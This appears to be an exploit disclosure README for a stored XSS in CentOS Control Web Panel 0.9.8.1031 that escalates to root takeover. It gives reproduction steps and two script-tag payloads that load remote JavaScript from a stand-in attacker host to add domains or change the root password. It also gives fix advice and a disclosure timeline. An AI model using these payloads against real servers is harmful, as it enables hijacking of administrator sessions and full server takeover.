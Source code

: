 Exploiting an XSS vulnerability in the CWP control panel and escalating the attack to change the root password...

# Information

```
# Exploit Title       : CWP (CentOS Control Web Panel) Version 0.9.8.1031 - XSS to full root takeover
# Date                : 7 january 2021
# Exploit Author      : Chokri B.A.
# Vendor Homepage     : https://control-webpanel.com/
# Software Link       : Not available, user panel only available for lastest version
# Version             : 0.9.8.1031
# Tested on           : CentOS 7 / CentOS 6
# CVE                 : #
```

# Description
A simple user can add/delete/modify any option on behalf of the root user, and even change the root's password via a stored XSS vulnerability.

#  Steps to Reproduce
1. Login into the CentOS Web Panel using user credential
2. Create a new cron job using your prefered XSS payload.
3. Login as root and navigate to the list of cronjobs
4. the XSS payload will get executed.

#  Escalating
I've created 2 examples on how you can escalate this attack to take control of the full server.

1. <b>PayloadAddDomain.js</b> : add this code as your cronjob, when the root user list the cronjobs, a new domain name will be added under the choosen user.
``` 
<script type="text/javascript" src="https://yourevilwebsite.tld/PayloadAddDomain.js"></script>
```


2. <b>PayloadChangeRootPass.js</b> add this code as your cronjob, when the root user list the cronjobs, you will be able to change to root's password and take control of the full server.
``` 
<script type="text/javascript" src="https://yourevilwebsite.tld/PayloadChangeRootPass.js"></script>
```


3. You can perform any action you want as the root user. The only limit is your imagination....

#  Solution - Fix & Patch
The vulnerability can be patched by a secure parse and encode of the vulnerable input fields.
Disallow usage of special chars and restrict the parameter input to prevent application-side script code injection attacks.
Filter in the output error or the item listing the vulnerable location were the code executes.


#  Timeline

```
2021-01-07: Discovered the bug
2021-01-08: Reported to vendor
#: Vender accepted the vulnerability
#: The vulnerability has been fixed
#: Published
```

#  Demo
[![Video Demo](https://img.youtube.com/vi/bE7iZRjwIXk/0.jpg)](https://www.youtube.com/watch?v=bE7iZRjwIXk)
